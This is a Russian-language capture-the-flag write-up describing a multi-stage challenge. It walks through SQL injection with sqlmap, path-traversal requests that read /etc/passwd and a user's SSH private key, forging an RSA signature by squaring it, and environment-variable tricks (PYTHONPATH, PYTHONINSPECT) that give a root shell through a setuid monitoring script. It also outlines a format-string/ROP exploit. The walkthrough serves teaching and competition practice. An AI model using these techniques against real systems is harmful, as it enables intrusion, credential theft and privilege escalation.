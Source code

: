 ﻿На видео: [4:02:20](https://vk.com/video-114366489_456239197?t=4h02m20s)

## Стадия 1 — REV либо WEB

### REV-путь
Декомпилировав .NET-приложение, можно увидеть, что для пользователя `admin` пароль подставляется как 100×MD5("admin")

### WEB-путь
Через SQL-инъекцию в /list можно вытащить пароль админа из базы

```sh
sqlmap -u 'http://95.179.184.108:20001/list?login=admin&password=admin'
```


## Стадия 2 — WEB либо DATA

### WEB-путь
Через читалку в /get можно скачать приватный SSH-ключ юзера imgstore

```sh
curl 'http://95.179.184.108:20001/get?login=admin&password=a113f7cc91116112d76a6ad4d1e5471c&image=../../../etc/passwd'
curl 'http://95.179.184.108:20001/get?login=admin&password=a113f7cc91116112d76a6ad4d1e5471c&image=../../../home/imgstore/.ssh/id_rsa'
```

### DATA-путь
Тот же приватный ключ SSH в стэше гита в бекапе у админа (backup_201905)

```sh
git stash pop
ls -al sign_keys.zip
```


## Стадия 3 — DATA либо PWN

### DATA-путь
Скрипт `/home/sysmon/system_monitoring.py` запускается под рутом, проверяет RSA-подпись команды. Гомоморфно возведя известную подпись в квадрат, можно добиться выполнения несуществующей команды, и создать файл с таким названием в PATH.

```sh
imgstore@b-final-1:/home/sysmon$ python
>>> cmd = '/bin/netstat -apntu'
>>> sig = base64.b64decode('WbdzUJdGJ2eC2W17lYatbdzmEFWZEVyL1LUUnA9/9gt80T6VGlpaSHgLgAcwGt6vY1vP3uH3EbmCOmA9JqgYSA==')
>>> check_rsa_signature(cmd, str2num(sig))
True
>>> newCmd = num2str(str2num(cmd) ** 2)
>>> newSig = num2str(str2num(sig) ** 2)
>>> check_rsa_signature(newCmd, str2num(newSig))
True
>>> newCmd
'\x08\xc5H\x8bY2l\x1b\xcao\x90\x88\x0b[Z\x95\xd1\x9dS8\xd0~c\xd1k\xff\xa4\xa7\xe4n_F88\xa9\x86=y'
>>> base64.b64encode(newSig)
'H3ERpBpYjvo7m7bxQ/Gif0HU1IO9XAJv4FdO8FpbscBw1mh0s6AQeP5oEmt2TTJ8egHS4ty3wfbhfDpl+2iDlcYn5ukLrBahaX7Wuah05c7RNux9ei36Qla7WB3zOHevGj1xSyw93fvkio+5mu1y1kVZLn94QtB9pMfn5UDNlEA='

imgstore@b-final-1:/home/sysmon$ ./suid_system_monitoring $'\x08\xc5H\x8bY2l\x1b\xcao\x90\x88\x0b[Z\x95\xd1\x9dS8\xd0~c\xd1k\xff\xa4\xa7\xe4n_F88\xa9\x86=y' H3ERpBpYjvo7m7bxQ/Gif0HU1IO9XAJv4FdO8FpbscBw1mh0s6AQeP5oEmt2TTJ8egHS4ty3wfbhfDpl+2iDlcYn5ukLrBahaX7Wuah05c7RNux9ei36Qla7WB3zOHevGj1xSyw93fvkio+5mu1y1kVZLn94QtB9pMfn5UDNlEA=
[+] Security check passed
sh: 1:▒H▒Y2lo▒▒
               [Z▒ѝS8▒~c▒k▒▒▒▒n_F88▒▒=y: not found
imgstore@b-final-1:/home/sysmon$ cd /tmp
imgstore@b-final-1:/tmp$ echo /bin/sh > $'\x08\xc5H\x8bY2l\x1b\xcao\x90\x88\x0b[Z\x95\xd1\x9dS8\xd0~c\xd1k\xff\xa4\xa7\xe4n_F88\xa9\x86=y'
imgstore@b-final-1:/tmp$ chmod +x $'\x08\xc5H\x8bY2l\x1b\xcao\x90\x88\x0b[Z\x95\xd1\x9dS8\xd0~c\xd1k\xff\xa4\xa7\xe4n_F88\xa9\x86=y'
imgstore@b-final-1:/tmp$ export PATH=".:$PATH"
imgstore@b-final-1:/tmp$ /home/sysmon/suid_system_monitoring $'\x08\xc5H\x8bY2l\x1b\xcao\x90\x88\x0b[Z\x95\xd1\x9dS8\xd0~c\xd1k\xff\xa4\xa7\xe4n_F88\xa9\x86=y' H3ERpBpYjvo7m7bxQ/Gif0HU1IO9XAJv4FdO8FpbscBw1mh0s6AQeP5oEmt2TTJ8egHS4ty3wfbhfDpl+2iDlcYn5ukLrBahaX7Wuah05c7RNux9ei36Qla7WB3zOHevGj1xSyw93fvkio+5mu1y1kVZLn94QtB9pMfn5UDNlEA=
[+] Security check passed
# id
uid=0(root) gid=1002(imgstore) groups=1002(imgstore)
#
```

### PENTEST-путь
Скрипт `/home/sysmon/system_monitoring.py` запускается под рутом, а питон обрабатывает интересные енв-вары.

```sh
imgstore@b-final-1:/tmp$ echo 'import os; os.system("/bin/sh")' > base64.py
imgstore@b-final-1:/tmp$ PYTHONPATH=. /home/sysmon/suid_system_monitoring
# id
uid=0(root) gid=1002(imgstore) groups=1002(imgstore)
#
```

или (© groke)

```sh
imgstore@b-final-1:/tmp$ PYTHONINSPECT=1 /home/sysmon/suid_system_monitoring
USAGE: /home/sysmon/system_monitoring.py 'command' 'signature'
Traceback (most recent call last):
  File "/home/sysmon/system_monitoring.py", line 28, in <module>
    exit()
  File "/usr/lib/python2.7/site.py", line 366, in __call__
    raise SystemExit(code)
SystemExit: None
>>> import os
>>> os.system("/bin/sh")
# id
uid=0(root) gid=1002(imgstore) groups=1002(imgstore)
#
```

### PWN-путь
С помощью форматной строчки ликнуть базу бинаря, собрать ROP, с помощью `gets` переехать рет-адрес.
